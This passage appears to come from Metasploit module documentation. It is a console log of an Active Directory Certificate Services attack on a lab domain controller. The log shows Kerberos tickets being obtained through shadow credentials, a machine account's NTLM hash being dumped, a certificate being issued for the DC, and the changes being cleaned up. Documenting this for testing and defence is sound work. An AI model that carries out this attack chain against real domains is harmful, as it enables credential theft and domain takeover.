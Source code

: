 ```
[!] Warning: Provided principal and realm (Test2$@kerberos.issue) do not match entries in certificate:
[+] 172.16.199.200:88 - Received a valid TGT-Response
[*] 172.16.199.200:88 - TGT MIT Credential Cache ticket saved to /Users/jheysel/.msf4/loot/20250730093954_default_172.16.199.200_mit.kerberos.cca_631833.bin
[*] 172.16.199.200:88 - Getting NTLM hash for Test2$@kerberos.issue
[+] 172.16.199.200:88 - Received a valid TGS-Response
[*] 172.16.199.200:88 - TGS MIT Credential Cache ticket saved to /Users/jheysel/.msf4/loot/20250730093954_default_172.16.199.200_mit.kerberos.cca_923562.bin
[+] Found NTLM hash for Test2$: aad3b435b51404eeaad3b435b51404ee:4fd408d8f8ecb20d4b0768a0ac44b71f
[+] 172.16.199.200:445 - The requested certificate was issued.
[*] 172.16.199.200:445 - Certificate Policies:
[*] 172.16.199.200:445 -   * 1.3.6.1.5.5.7.3.2 (Client Authentication)
[*] 172.16.199.200:445 - Certificate DNS: dc2.kerberos.issue
[*] 172.16.199.200:445 - Certificate stored at: /Users/jheysel/.msf4/loot/20250730093956_default_172.16.199.200_windows.ad.cs_337994.pfx
[*] 172.16.199.200:445 - Removing shadow credential
[*] 172.16.199.200:445 - Loading admin/ldap/shadow_credentials
[*] 172.16.199.200:445 - Running admin/ldap/shadow_credentials
[*] New in Metasploit 6.4 - This module can target a SESSION or an RHOST
[*] Discovering base DN automatically
[*] 172.16.199.200:389 Discovered base DN: DC=kerberos,DC=issue
[+] Deleted entry with device ID 44760c6e-8637-598a-ad8e-04aa4b99ee58
[*] 172.16.199.200:445 - Reverting ldap object
[*] 172.16.199.200:445 - Loading auxiliary/admin/ldap/ldap_object_attribute
[*] 172.16.199.200:445 - Running auxiliary/admin/ldap/ldap_object_attribute
[*] New in Metasploit 6.4 - This module can target a SESSION or an RHOST
[*] Attempting to delete attribute dNSHostName from CN=Test2,CN=Computers,DC=kerberos,DC=issue...
[+] Successfully deleted attribute dNSHostName from CN=Test2,CN=Computers,DC=kerberos,DC=issue
[+] The operation completed successfully!
[*] Auxiliary module execution completed
```

For more exploit scenarios that this module can exploit, refer to the [[Attacking-AD-CS-ESC-Vulnerabilities|./ad-certificates/Attacking-AD-CS-ESC-Vulnerabilities.md]] documentation.

